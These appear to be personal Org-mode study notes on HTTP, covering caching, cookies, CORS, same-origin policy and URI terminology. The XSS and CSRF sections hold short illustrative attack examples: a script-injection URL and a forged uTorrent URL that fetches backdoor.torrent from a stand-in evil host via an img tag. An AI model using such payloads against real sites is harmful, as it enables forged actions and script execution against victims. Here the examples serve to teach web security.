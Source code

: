 #+TITLE: HTTP

* Table of Contents :TOC_2_gh:
- [[#topics][Topics]]
  - [[#cache-control][Cache Control]]
  - [[#cookies][Cookies]]
  - [[#accept-vs-content-type][Accept vs. Content-Type]]
  - [[#when-is-the-authorization-header-automatically-sent-by-the-browser][When is the Authorization header automatically sent by the browser?]]
  - [[#basic-access-authentication][Basic access authentication]]
  - [[#web-storage-vs-cookies][Web Storage vs. Cookies]]
  - [[#cors-cross-origin-resource-sharing][CORS (Cross Origin Resource Sharing)]]
  - [[#xss-cross-site-scripting][XSS (Cross-site scripting)]]
  - [[#csrf-cross-site-request-forgery][CSRF (Cross-site request forgery)]]
- [[#terminology][Terminology]]
  - [[#url-vs-uri-vs-urn][URL vs URI vs URN]]
  - [[#endpoint][Endpoint]]

* Topics
** Cache Control
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cache-Control
*** Request
#+BEGIN_EXAMPLE
  Cache-Control: max-age=<seconds>
  Cache-Control: max-stale[=<seconds>]
  Cache-Control: min-fresh=<seconds>
  Cache-Control: no-cache 
  Cache-Control: no-store
  Cache-Control: no-transform
  Cache-Control: only-if-cached
#+END_EXAMPLE

*** response
#+BEGIN_EXAMPLE
  Cache-Control: must-revalidate
  Cache-Control: no-cache
  Cache-Control: no-store
  Cache-Control: no-transform
  Cache-Control: public
  Cache-Control: private
  Cache-Control: proxy-revalidate
  Cache-Control: max-age=<seconds>
  Cache-Control: s-maxage=<seconds>
#+END_EXAMPLE

** Cookies
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
- https://stackoverflow.com/questions/1336126/does-every-web-request-send-the-browser-cookies

#+BEGIN_QUOTE
Yes, as long as the URL requested is within the same domain and path defined in the cookie
(and all of the other restrictions -- secure, httponly, not expired, etc) hold,
then the cookie will be sent for every request.
#+END_QUOTE

*** Set-Cookie
#+BEGIN_EXAMPLE
  Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
#+END_EXAMPLE

- https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#Secure_and_HttpOnly_cookies
- Secure   :: The cookies that are set can only be sent over HTTPS
- HttpOnly :: The cookies that are set cannot be retrieved with JS. Only be sent to the designated server.

** Accept vs. Content-Type
- https://webmasters.stackexchange.com/questions/31212/difference-between-the-accept-and-content-type-http-headers

#+BEGIN_QUOTE
~Accept~ header is used by HTTP clients to tell the server what content types they'll accept.
The server will then send back a response, which will include a ~Content-Type~ header
telling the client what the content type of the returned content actually is.
#+END_QUOTE

The ~Content-Type~ header on HTTP Request is for the payload of ~POST~ or ~PUT~, which tells the server how the payload is formed.

** When is the Authorization header automatically sent by the browser?
- https://stackoverflow.com/questions/15427650/when-is-the-authorization-header-automatically-sent-by-the-browser
- https://security.stackexchange.com/questions/172637/will-authorization-bearer-in-request-header-fix-csrf-attacks

Only types like ~Basic~, ~NTLM~ of ~Authorization~ header is sent automatically by browser in following cases:
#+BEGIN_QUOTE
The ~Authorization~ header field allows a user agent to authenticate itself with an origin server --
 usually, but not necessarily, after receiving a 401 (Unauthorized) response.
#+END_QUOTE

On the other hand, other types must explicitly be added by JS.
#+BEGIN_QUOTE
A ~Bearer~ token in the ~Authorization~ header necessarily requires being added by JavaScript
because *the browser will never include it*
#+END_QUOTE

** Basic access authentication
- https://en.wikipedia.org/wiki/Basic_access_authentication

#+BEGIN_QUOTE
Because the BA field(~Authorization: Basic~) has to be sent in the header of *each HTTP request*,
the web browser needs to cache credentials for a reasonable period of time to avoid constantly prompting the user for their username and password.
Caching policy differs between browsers.
Microsoft Internet Explorer by default caches them for 15 minutes.[1]
#+END_QUOTE

** Web Storage vs. Cookies
- https://auth0.com/docs/security/store-tokens
- https://stackoverflow.com/questions/35291573/csrf-protection-with-json-web-tokens

Does your authn token protect anything to do with money?
- You'll probably want the cookie httpOnly secure option.

Is the level of effort required to implement CSRF protection not worth the assets it's protecting?
- Then the Web Storage might be the right place.

*** Web Storage
There are two types of Web Storage:
- localStorage   :: data persists until explicitly deleted.
- sessionStorage :: Once the window is closed, the storage is deleted.

Web Storage is safe from CSRF attacks, since it doesn't automatically send its contents.

However, there are some disadvantages compared to Cookies:
- sandboxed to a specific domain
- accessible through JS, which means that it's vulnerable to XSS attacks

*** Cookies
Disadvantages compared to Web Storages:
- 4KB of max size (it counts all elements like name, value, expiry date)
- vulnerable to CSRF attacks

** CORS (Cross Origin Resource Sharing)
- https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS

CORS is for invocations of the [[https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest][XMLHttpRequest]] or [[https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API][Fetch API]], and other resources like images and fonts.

*** Simple Requests
With some limited conditions, CORS works as normal requests by just adding some headers 
like ~Origin~ on requests and ~Access-Control-Allow-Origin~ on responses.
This type of requests is usually a kind of read access, like ~GET~, ~HEAD~, ~POST~

*** Preflighted Requests
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS

If some requests is unable to comply the simple requests conditions, it should go with Preflighted Requests.
With this process, the client sends an ~OPTION~ request first, and make the actual request using the ~OPTION~ response.
This type of requests is usually a kind of write access, like ~PUT~, ~DELETE~

When you send an ~OPTION~ request, you should include some headers like ~Access-Control-Request-Method~, ~Access-Control-Request-Headers~
Here is an example respond of the ~OPTION~ request.
#+BEGIN_EXAMPLE
  Access-Control-Allow-Origin: http://foo.example
  Access-Control-Allow-Methods: POST, GET, OPTIONS
  Access-Control-Allow-Headers: X-PINGOTHER, Content-Type
  Access-Control-Max-Age: 86400
#+END_EXAMPLE

*** XMLHttpRequest.withCredentials and Access-Control-Allow-Credentials
- https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/withCredentials
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Credentials

If ~withCredentials~ is set to ~true~ on the request, the CORS request will send cookies, ~Authorization~ header, etc.

~Access-Control-Allow-Credentials~: When used as part of a response to a preflight request,
this indicates whether or not the actual request can be made using credentials.
If this response doesn't contain ~Access-Control-Allow-Credentials: true~,
it won't provide the actual response.

The cookie created through this process will be treated as the third party cookie.

*** Same-origin policy
- https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy
- https://security.stackexchange.com/questions/8264/why-is-the-same-origin-policy-so-important
- https://en.wikipedia.org/wiki/Same-origin_policy

#+BEGIN_QUOTE
The same-origin policy is a key mechanism implemented within browsers
that is designed to keep content that came from different origins
from interfering with each other.
#+END_QUOTE

Without Same-origin policy, any JS code would access other domains resources. 

[[file:_img/screenshot_2018-03-19_01-16-27.png]]

*** JSONP
:REFERENCES:
- https://en.wikipedia.org/wiki/JSONP
:END:
JSON with Padding. A way to circumvent Same-origin policy before the adoption of ~CORS~.

#+BEGIN_SRC html
  <script type="application/javascript"
          src="http://server.example.com/Users/1234?callback=parseResponse">
  </script>
#+END_SRC

#+BEGIN_SRC js
  parseResponse({"Name": "Foo", "Id": 1234, "Rank": 7});
#+END_SRC

** XSS (Cross-site scripting)
- https://en.wikipedia.org/wiki/Cross-site_scripting

An attacker observes that target website contains a reflected XSS vulnerability:
1. Search feature: If no results were found, the page will display the url with the query term, like http://bobssite.org?q=term.
2. Submit a search query with a term like ~<script type='text/javascript'>alert('xss');</script>~
3. An alert box appears (that says ~xss~).
4. The url is ~http://bobssite.org?q=<script%20type='text/javascript'>alert('xss');</script>~
5. The attacker sends an e-mail which contains a link to the forged url.
6. The victim gets the link and executes the attackers script.

** CSRF (Cross-site request forgery)
- https://en.wikipedia.org/wiki/Cross-site_request_forgery

Force a ~.torrent~ file download:
1. uTorrent's web console is accessible at ~localhost:8080~
2. Forge a url make uTorrent download ~backdoor.torrent~ automatically
   - ~http://localhost:8080/gui/?action=add-url&s=http://evil.example.com/backdoor.torrent~
3. Inject the forged url as ~<img>~ tag like: ~<img src="<url>">~
4. The victim opens the page containg the tag and download ~backdoor.torrent~ inadvertently.

* Terminology
** URL vs URI vs URN
- https://stackoverflow.com/questions/176264/what-is-the-difference-between-a-uri-a-url-and-a-urn

| Name (Uniform Resource -) | Example                                 | Note                                                                                                         |
|---------------------------+-----------------------------------------+--------------------------------------------------------------------------------------------------------------|
| ~URI~ (Identifier)        | ~https://www.google.co.kr/search?q=uri~ |                                                                                                              |
| ~URL~ (Locator)           | ~https://www.google.co.kr/search~       | Subset of ~URI~, contains only about location                                                                |
| ~URN~ (Name)              | ~urn:google:search:uri~                 | Subset of ~URI~, doesn't necessarily tell you how to locate it on the internet. Usually Prefixed with ~urn:~ |

[[file:_img/screenshot_2017-06-03_15-46-11.png]]

** Endpoint
- https://stackoverflow.com/questions/9807382/what-is-a-web-service-endpoint
- A web ~endpoint~ is ~URL~ that another program would use to communicate with your program.

